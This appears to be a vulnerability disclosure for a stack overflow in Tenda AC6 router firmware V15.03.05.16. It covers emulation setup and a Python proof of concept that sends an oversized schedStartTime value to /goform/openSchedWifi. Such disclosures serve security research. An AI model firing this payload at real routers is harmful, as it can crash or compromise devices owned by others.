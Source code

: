 
-------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/7772c8d2-54f0-4bcd-926c-445aeee977f2)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedStartTime parameter causes a stack-based buffer overflow.

![image](https://github.com/user-attachments/assets/aae90b78-6ca7-410c-af4a-06962006904c)



![image](https://github.com/user-attachments/assets/1a1b19a4-2175-47c1-bfea-c9b1c35e7620)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedStartTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![image](https://github.com/user-attachments/assets/a378cd22-4b93-4143-8e22-f54cda12bb60)


